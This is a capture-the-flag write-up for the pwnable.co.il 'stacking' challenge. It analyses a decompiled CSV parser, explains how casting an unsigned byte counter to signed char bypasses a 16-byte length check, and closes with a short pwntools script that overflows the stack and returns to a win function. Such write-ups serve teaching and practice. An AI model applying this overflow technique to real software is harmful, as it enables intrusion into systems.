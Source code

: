 ```yaml
---
title: "pwnable.co.il - stacking"
classes: wide
header:
  teaser: /assets/images/ctf-writeups/pwnable.co.il/logo.png
ribbon: green
description: "This challenge provides a data management service that parses your data using the CSV format."
categories:
  - CTF Writeups
  - pwn
---
```


> Challenge description:
>
> CSV is the best way to store data. Wanna prove me wrong?

- Note: A CSV (Comma-Separated Values) is a format of values that are typically stored in plain text, where each value is separated by a comma. Each line in a CSV file usually represents a row, and the values in each row represent fields or columns. This format is widely used for data exchange, such as exporting data from spreadsheets, databases, or for simple data storage, due to its simplicity and readability. [more info](https://en.wikipedia.org/wiki/Comma-separated_values#:~:text=Comma%2Dseparated%20values%20(CSV),typically%20represents%20one%20data%20record.)

Since the challenge is called "stacking," I assumed it would be stack-based.
To investigate further, I opened the provided ELF file in my `gef` debugger.

Here, you can see all the static function symbols provided by the ELF file:

[![static symbols](/assets/images/ctf-writeups/pwnable.co.il/stacking/symbols.png)](/assets/images/ctf-writeups/pwnable.co.il/stacking/symbols.png)

Among the functions there’s an interesting one called `win` which might be our target in this challenge,
but now let’s dig into the `main` function. 
To make it easier, I’ll use hex-rays decompiler to convert the code into C:

```c
int __fastcall main(int argc, const char **argv, const char **envp) {
  void *csv_str; // rsi

  init_buffering(argc, argv, envp);
  puts("Welcome to my data parser!");
  puts("Please enter your comma-separated data: ");
  csv_str = malloc(0x100uLL); // allocate 256 bytes for `csv_str`
  read(0, csv_str, 0x100uLL);
  parse_data(csv_str); // interesting function
  
  return 0;
}
```

Everything here looks fine, and there’s no obvious vulnerability in this code.
However, we can see another interesting function that uses in that code called `parse_data`. 
So let’s dig into it to search for vulnerabilities! 
Again, I’ll use hex-rays decompiler to convert the code into C:

```c
size_t __fastcall parse_data(const char *csv_str) {
  size_t tmp_ctr; // rbx
  size_t result; // rax
  char buffer[23]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int8 i; // [rsp+27h] [rbp-19h]
  int start_of_data; // [rsp+28h] [rbp-18h]
  int ctr; // [rsp+2Ch] [rbp-14h]

  ctr = -1; // counter of the csv string current char
  start_of_data = 0;
  do
  {
    memset(buffer, 0, 16);
    for ( i = 0; csv_str[++ctr] != ','; ++i ) // read data from the csv string until the next comma
    {
      if ( !csv_str[ctr] )
      {
        --i; // comma dont count as part of the data
        break;
      }
    }
    if ( (char)i > 16 ) // max data length is 16 (Note: Why it uses (char) casting?)
    {
      puts("Too big data");
      exit(1); 
    }
    memcpy(buffer, &csv_str[start_of_data], i); //copy data from `csv_str` into `buffer` in `i` length size
    start_of_data += i + 1; // add current data size plus one char (the comma) to set the start of next data string
    printf("Length: %d\n", i);
    printf("Data :%s\n", buffer);
    tmp_ctr = ctr;
    result = strlen(csv_str); 
  } while ( tmp_ctr < result ); // run until all the csv string is parsed
  
  return result;
}
```

This function processes a CSV string, It extracts and processes each value between commas. For each value, it checks if its length exceeds 16 characters and if it does it prints an error message and exits. 
Then it stores each value in a buffer `s`, prints the length of the value and also prints the value itself. 
The function continues parsing until all values in the CSV string are processed. 
Finally, it returns the total length of the input string.

## The vuln - Casting `unsigned __int8` to `char`
```c
if ( (char)i > 16 ) {
  puts("Too big data");
  exit(1); 
}
```
Here, `i` is declared as `unsigned __int8` meaning it can hold values from `0` to `255`. 
However, casting it to char changes its interpretation to signed, where it can hold values from `-128` to `127`. 
As a result, when `i` is greater than `127`, the cast causes it to wrap around into negative values. 
This bypasses the if `if((char)i > 16){...}` check because a negative value will always fail this condition, 
even though the actual value of `i` (in its original `unsigned __int8` form) may still exceed `16`.

This vulnerability allows us to provide CSV data with values longer than 16 characters, effectively overwriting the return address of the `parse_data` function stored on the stack. 
Using this, we can redirect the program to the win function.

## Exploit
To exploit this vuln we create a payload that:
1. Bypasses the length check using the signed/unsigned casting vuln.
2. Overflows the `buffer` to overwrite the ret address of the `parse_data` function.
3. Redirects the execution to the `win` function.
* Note: in some cases the stack may be misaligned, causing issues when returning to a function like win.
  This happens because the stack pointer is not aligned to a 16-byte boundary, which is required by the x86-64 System V ABI.
  To fix this, we use a `ret-gadget` first, which will realign the stack to the correct boundary.
  
```py
from pwn import *

# Connect to remote server
conn = remote('pwnable.co.il', 9009)

# Functions symbols & Gadgets 
ret = p64(0x0000000000401479)
win = p64(0x00000000004012e5)

# Create paylod
padding = b'\x00' * 56
paylod = padding + ret + win

# Sending paylod to remote server
conn.sendline(paylod)
conn.interactive()
```
